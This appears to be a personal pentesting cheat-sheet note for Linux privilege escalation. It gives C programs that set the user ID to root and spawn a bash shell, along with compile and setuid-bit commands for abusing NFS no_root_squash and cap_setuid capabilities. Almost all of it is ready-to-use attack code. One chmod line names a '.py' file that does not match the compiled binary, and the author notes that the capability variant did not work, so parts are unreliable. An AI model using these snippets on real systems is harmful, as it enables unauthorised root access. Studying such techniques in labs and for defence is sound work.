 
for use with for example [[nfs - no_root_squash]]

```c
int main(){
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return 0;
}
```

compile
`gcc runbash.c -o runbash`

if exploiting nfs no_root_squash, set suid after moving the file

set executable and suid/sgid but
`chmod +xs runbash.py`

---

for use with cap_setuid+ep
```c
#include<stdlib.h>
#include<unistd.h>
int main(){
        setuid(0);
        system("/bin/bash");
        return 0;
}
```

`gcc -static cap_setuid_ep.c -o cap_setuid_ep`

Did not work!

might python use another function in the bg that uses capabilities?